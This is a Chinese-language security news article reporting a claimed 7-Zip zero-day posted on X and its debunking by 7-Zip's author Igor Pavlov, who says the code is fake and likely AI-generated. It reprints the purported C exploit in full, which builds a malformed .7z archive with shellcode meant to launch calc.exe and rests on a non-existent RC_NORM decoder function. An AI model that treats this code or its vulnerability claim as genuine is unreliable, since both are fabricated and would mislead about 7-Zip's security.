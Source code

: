 #  x网友使用大模型生成 7-zip的0day漏洞，7-zip 原作者辟谣0day是假的   
 独眼情报   2024-12-31 04:40  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnQ7oG5wL4LpsziaWcBuamYZW6etZ4LUBS1ETAqnE1tHhaaN6yc8hbrHZLpCClVvLHibbLJoB0xI8vqQ/640?wx_fmt=png&from=appmsg "")  
  
一名名为@NSA_Employee39 的 X 用户披露了开源文件存档软件 7-Zip 中的一个零日漏洞。
经过验证的 X 账户@NSA_Employee39 声称披露了开源文件存档软件 7-Zip 中的零日漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnQ7oG5wL4LpsziaWcBuamYZWtVXxdicYSKC1cibMtsk05laTaibxn4Zz3wr8gIAx9O2I6zvtdumtAJHibA/640?wx_fmt=png&from=appmsg "")  
  
X 用户宣布它将“在本周内发布 0day 漏洞”，首先是开源软件 7-Zip 中的任意代码执行漏洞。  
  
攻击者可以利用此漏洞，通过诱骗受害者打开特制的 .7z 存档，在受害者系统上执行恶意代码。  
  
用户在Pastebin上发布了此零日漏洞的利用代码。（见文章结尾）  
  
“此漏洞利用了 7-Zip 软件的 LZMA 解码器中的漏洞。它使用精心设计的带有畸形 LZMA 流的 .7z 存档来触发 RC_NORM 函数中的缓冲区溢出条件。通过对齐偏移量和有效载荷，漏洞利用操纵内部缓冲区指针来执行 shellcode，从而导致任意代码执行。” Pastebin 上写道。“当受害者使用易受攻击的 7-Zip 版本（当前版本）打开/提取存档时，漏洞利用就会触发，执行启动 calc.exe 的有效载荷（您可以更改这一点）。 ”  
  
然而，许多专家对这一说法提出了批评，称该漏洞并不奏效，零日漏洞也并不存在。  
>   
> 7zip 的作者 Igor Pavlov 声称该漏洞是伪造的，他解释说 LZMA 解码器中没有任何 RC_NORM 功能。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnQ7oG5wL4LpsziaWcBuamYZWoibRPSB5gldXnXGHef3Q6t4q9XlboCfbTbfMdJp9gbsmkPicsnS5RTAg/640?wx_fmt=png&from=appmsg "")  
  
“普遍的结论是，来自 Twitter 的这个虚假漏洞代码是由 LLM（AI）生成的。 ” Pavlov写道。  
  
“假”代码中的注释包含如下语句：  
  
此漏洞针对的是 7-Zip 软件的 LZMA 解码器中的漏洞。它使用精心设计的带有畸形 LZMA 流的 .7z 存档来触发 RC_NORM 函数中的缓冲区溢出条件。”  
  
RC_NORM 但LZMA 解码器中没有 这个函数。
相反，7-Zip RC_NORM 在 LZMA 编码器和 PPMD 解码器中包含宏。因此，LZMA 解码代码不会调用 。 漏洞注释中RC_NORM关于的说法 RC_NORM是不正确的。 “  
## 吃瓜网络发布的相关代码  
```

// by @nsa_employee39

// This exploit targets a vulnerability in the LZMA decoder of the 7-Zip software. It uses a crafted .7z archive with a malformed LZMA stream to trigger a buffer overflow condition in the RC_NORM function. By aligning offsets and payloads, the exploit manipulates the internal buffer pointers to execute shellcode which results in arbitrary code execution. When the victim opens/extracts the archive using a vulnerable version (current version) of 7-Zip, the exploit triggers, executing a payload that launches calc.exe (You can change this).

// offsets might need to be adjusted!!!


#include "LzmaEnc.h"
#include "LzmaDec.h"
#include "7z.h"
#include "7zAlloc.h"
#include "Xz.h"
#include "XzEnc.h"
#include "7zFile.h"
#include "7zStream.h"
#include "CpuArch.h"

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

static void WriteUInt32LE(unsigned char* buf, UInt32 value) {
    buf[0] = (Byte)(value & 0xFF);
    buf[1] = (Byte)((value >> 8) & 0xFF);
    buf[2] = (Byte)((value >> 16) & 0xFF);
    buf[3] = (Byte)((value >> 24) & 0xFF);
}

static void WriteUInt64LE(unsigned char* buf, UInt64 value) {
    buf[0] = (Byte)(value & 0xFF);
    buf[1] = (Byte)((value >> 8) & 0xFF);
    buf[2] = (Byte)((value >> 16) & 0xFF);
    buf[3] = (Byte)((value >> 24) & 0xFF);
    buf[4] = (Byte)((value >> 32) & 0xFF);
    buf[5] = (Byte)((value >> 40) & 0xFF);
    buf[6] = (Byte)((value >> 48) & 0xFF);
    buf[7] = (Byte)((value >> 56) & 0xFF);
}

int main() {
    unsigned char shellcode[] = {
        0x55, 0x89, 0xE5, 0x83, 0xEC, 0x08, 0xC7, 0x04, 0x24,
        'c', 'a', 'l', 'c', 0x00, 0xCC, 0xCC, 0xCC, 0x89, 0xEC, 0x5D, 0xC3
    };

    size_t shellcodeSize = sizeof(shellcode);
    UInt32 addressOfSystemOffset = 0x39;
    UInt32 jmpOffset = (UInt32)((unsigned char*)&system - ((unsigned char*)shellcode + addressOfSystemOffset + 4));
    WriteUInt32LE(shellcode + 18, jmpOffset);

    unsigned char malicious_lzma_stream[] = {
        0x5D, 0x00, 0x00, 0x00, 0x01, 0x00,
        0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
        0xFF, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
    };

    unsigned char header[] = {
        '7', 'z', 0xBC, 0xAF, 0x27, 0x1C, 0x00, 0x04, 0x03, 0x5B, 0xA8, 0x6F,
        0x25, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x8F, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
    };

    unsigned char lzma_props[] = { 0x5D, 0x00, 0x00, 0x00, 0x01, 0x00 };

    size_t payloadSize = sizeof(header) + sizeof(lzma_props) + sizeof(malicious_lzma_stream) + sizeof(shellcode);
    unsigned char *payload = (unsigned char *)malloc(payloadSize);

    unsigned char *p = payload;
    memcpy(p, header, sizeof(header)); p += sizeof(header);
    memcpy(p, lzma_props, sizeof(lzma_props)); p += sizeof(lzma_props);
    memcpy(p, malicious_lzma_stream, sizeof(malicious_lzma_stream)); p += sizeof(malicious_lzma_stream);
    memcpy(p, shellcode, sizeof(shellcode));

    FILE *f = fopen("exploit.7z", "wb");
    if (!f) {
        perror("Failed to create exploit.7z");
        return 1;
    }

    fwrite(payload, 1, payloadSize, f);
    fclose(f);

    free(payload);
    return 0;
}


```  
  
  
  
